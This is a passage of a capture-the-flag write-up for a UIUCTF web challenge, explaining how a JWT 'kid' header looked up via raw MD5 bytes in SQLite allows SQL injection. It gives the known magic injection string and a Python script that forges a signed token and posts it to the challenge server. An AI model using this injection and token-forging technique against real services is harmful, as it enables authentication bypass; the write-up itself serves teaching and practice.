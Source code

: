 1. Get `POST /pay` request
2. Extract the header from the JWT (specifically, `kid`)
3. Grab the specific key for that kid
4. Verify signature using said key

So we know one of the keys: `passenger_key` and we know from our initial testing that the conductor key is not as simple as `conductor_key`. Taking a look at the client-side source:

![comments](static/uiuctf_comments.png)

Now we know that the key is being extracted from a SQLite database. We first take the MD5 hash of the kid and then use that as the lookup. So, for `passenger_key`:

```
SELECT * FROM keys WHERE kid = '5f0852f21e73dc78c9c402c5b4125ce4`;
```

At least, that would be the intuitive thought. The part that stood out to our team from the very beginning was the weird encoding in the HTML popup when you click the button-- just raw bytes. And now, in the comments, we see the "TODO: convert md5 to hex instead of latin1". It looks like we need to perform some sort of SQL injection. A quick Google search of "MD5 SQL injection" yields a CTF writeup by Christian von Kleist ([https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)) discussing how using the raw bytes of MD5 rather than the hexdigest can provide opportunity for SQL injection. I won't go into details on the technicals because the blog post does a great job on it, but basically, we can use the string `129581926211651571912466741651878684928` which when hashed using MD5:

```
hexdigest: 06da5430449f8f6f23dfc1276f722738
raw: ?T0D??o#??'or'8.N=?
```

Armed with this information, I created a quick script to automate the signing of the JWT and making the POST request:

```python
key = 'a_boring_passenger_signing_key_?'

headers = {
    "kid": "129581926211651571912466741651878684928"
}

payload = {
    "type": "passenger",
}

jwt_token = jwt.encode(payload, key, headers=headers, algorithm='HS256')

url = 'https://fare-evasion.chal.uiuc.tf/pay'
cookies = {
    'access_token': jwt_token
}
s = requests.Session()
r = s.post(url, cookies=cookies)
print(r.text)
```
